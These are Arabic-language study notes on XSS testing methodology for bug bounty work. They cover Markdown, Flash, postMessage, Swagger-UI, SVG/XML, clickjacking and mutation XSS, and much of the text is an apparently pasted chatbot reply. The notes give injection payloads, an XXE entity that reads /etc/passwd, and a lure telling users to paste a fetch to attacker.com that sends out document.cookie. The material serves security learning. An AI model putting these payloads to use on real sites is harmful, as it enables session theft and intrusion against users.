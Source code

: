 
#### شرحها علشان تفهمها :  
- [[شرح الخطوه Markdown XSS]]
- [[شرح فديوهات لل الخطوة Markdown XSS]]
#### 📌 **الوصف**:  
لو الموقع بيسمح بكتابة Markdown (زي GitHub أو بعض المنتديات)، بعض المحركات ممكن تسمح بتضمين HTML أو JavaScript.

### طرق الاستغلال :
- ء 
	- [[سيناريوهات اللي هستخدمها في الخطوه  Markdown XSS#أ. حقن باستخدام وسوم HTML]]
	- [[سيناريوهات اللي هستخدمها في الخطوه  Markdown XSS#ب. حقن باستخدام روابط JavaScript]]
	-  [[سيناريوهات اللي هستخدمها في الخطوه  Markdown XSS#ج. حقن باستخدام وسوم صور أو أحداث]]
	-  [[سيناريوهات اللي هستخدمها في الخطوه  Markdown XSS#د. حقن باستخدام صيغ Markdown للصور]]
	-  [[سيناريوهات اللي هستخدمها في الخطوه  Markdown XSS#هـ. حقن مع التعتيم]]
	-  [[سيناريوهات اللي هستخدمها في الخطوه  Markdown XSS#زـ. نوع جديد من الحقن]]


#### 📍 **أمثلة**:

```md
[Click Me](javascript:alert(1))
<img src="x" onerror="alert(1)">
```



### البايلود اللي تستخدمها :


![Markdown-Formatted Payloads.txt](attachments/Markdown-Formatted Payloads.txt)




#### 📌 **معلومة**:  
معظم Markdown engines بتفلتر الـ JS، لكن بعضهم لا، خاصة لو misconfigured.












ممتاز جدًا 👏🔥  
إنت كده شغال على مستوى محترف، وعلشان كده هنطوّر مع بعض **XSS Methodology v4.0**، ونضيف كل المواضيع الجديدة اللي ذكرتها، **بشكل منظم جوه المنهجية**، بحيث تبقى معاك أداة متكاملة لأي اختبار اختراق أو Bug Bounty.

---

# 🚀 XSS Methodology v4.0

### _بما يشمل_: AngularJS، Flash، DOM PostMessage، Swagger UI، Markdown، SVG/XML، UI Redressing، Self XSS

---

## 🧭 الأقسام الأساسية من v3.0

- ✅ 1-11: [موجودة بالفعل ومشروحة بالتفصيل في الرد السابق](https://chatgpt.com/c/685b1ede-8ae8-8008-8ca6-2fd3a61c905f#)
    
- الآن نضيف **القسم 12: Special XSS Vectors** ✨
    

---

## ✅ 12. Special Vectors & Exploitation Paths 🔬

### 🟨 12.1. AngularJS-based XSS

---

### 🟥 12.2. Flash-based XSS (SWF XSS)

📌 **الوصف**:  
بعض ملفات Flash `.swf` القديمة بيكون فيها ثغرات بتسمح بحقن JavaScript لو كانت فيها وظائف زي `ExternalInterface.call()`.

📍 **الاستغلال**:

- ملفات Flash المضروبة ممكن تسرّب كود:
    

```html
<object data="vulnerable.swf?js=alert(1)" ...>
```

📌 **أدوات**:

- `swfscan`, `swfmill`, أو تحليل بـ Burp
    

---

### 🟩 12.3. DOM PostMessage-based XSS

📌 **الوصف**:  
لو الموقع بيستخدم `window.postMessage()` وبيستقبل بيانات بدون تحقق، ممكن تتنفذ أوامر.

📍 **الاستغلال**:

```js
window.postMessage('<img src=x onerror=alert(1)>', '*');
```

📌 **التحقق**:

- راقب استجابات `message` event في DevTools.
    
- لو استُخدم مع `innerHTML` بدون تحقق → خطر.
    

---

### 🟦 12.4. Swagger-UI XSS

📌 **الوصف**:  
واجهة `Swagger-UI` (اللي بتعرض API docs) ممكن تكون قابلة لحقن XSS لو كان الـ API description أو request examples فيها HTML/JS بدون فلترة.

📍 **أماكن الحقن**:

- `description`
    
- `example` responses
    

📍 **الاستغلال**:

```json
"example": {
  "payload": "<img src=x onerror=alert(1)>"
}
```

---

---

### ⚪ 12.6. Self XSS

📌 **الوصف**:  
نوع من XSS بيتطلب من المستخدم إنه بنفسه يحط الكود في DevTools أو console.

📍 **الاستخدام في البج باونتي؟**  
لا يعتبر ثغرة مباشرة، لكن ممكن يتربط مع:

- Insecure CORS
    
- CSRF token leaks
    
- Session hijacking
    

📍 **مثال خداعي**:

> “انسخ الكود ده في console علشان تكسب جوهرة 👇”

```js
fetch('http://attacker.com?cookie='+document.cookie)
```

---

### 🔶 12.7. SVG & XML Payloads

📌 **الوصف**:  
SVG و XML ممكن يحتوي عناصر قابلة للتنفيذ مثل `<script>`, `<foreignObject>`, أو حتى أحداث JS زي `onload`.

📍 **أمثلة SVG XSS**:

```xml
<svg/onload=alert(1)>
```

📍 **داخل XML ملفات**:

```xml
<!DOCTYPE root [
<!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<root>&xxe;</root>
```

> بعض الثغرات دي تبقى **XXE** أكتر منها XSS، بس مربوطة بـ XML rendering.

---

### 🟧 12.8. UI Redressing (Clickjacking + XSS)

📌 **الوصف**:  
لو الموقع عنده صفحة XSS داخل iframe، تقدر تغطي الزرار الحقيقي بعنصر وهمي وتخلي المستخدم ينفذ حاجة خطيرة.

📍 **مثال استغلال**:

```html
<iframe src="https://victim.com/xss-page" style="opacity:0;position:absolute;top:0;left:0;"></iframe>
<button style="position:absolute;top:0;left:0;">Click Here!</button>
```

📌 **الحل من عندهم؟**  
لازم يستخدموا `X-Frame-Options: DENY`

---

### 🟨 12.9. Extra Bonus – Mutation XSS

📌 **الوصف**:  
بعض الـ WYSIWYG editors (زي CKEditor أو TinyMCE) بيعدّلوا المحتوى بطريقة بتخلق XSS أثناء التعديل.

📍 **مثال**:

```html
<a href="javascript:alert(1)">Click</a>
```

لكن الأداة تحوله لـ:

```html
<a href data-href="javascript:alert(1)">Click</a>
```

---

## ✅ هل تحب ألخصهم لك في جدول PDF أو Markdown؟

لو حابب كمان أعملك:

- نسخة بصيغة Markdown ترفعها على **Obsidian أو GitHub**
    
- أو نسخة PDF لعرضها في أي عرض تقديمي
    
- أو قالب جاهز تحطه في **Burp Notes Template**
    

قولي، وأنا أعملها فورًا لك.  
ولو عندك أي مواضيع تانية ذاكرتها أو عايز تضيفها، ابعتها وهنطوّر المنهجية أكتر. 💪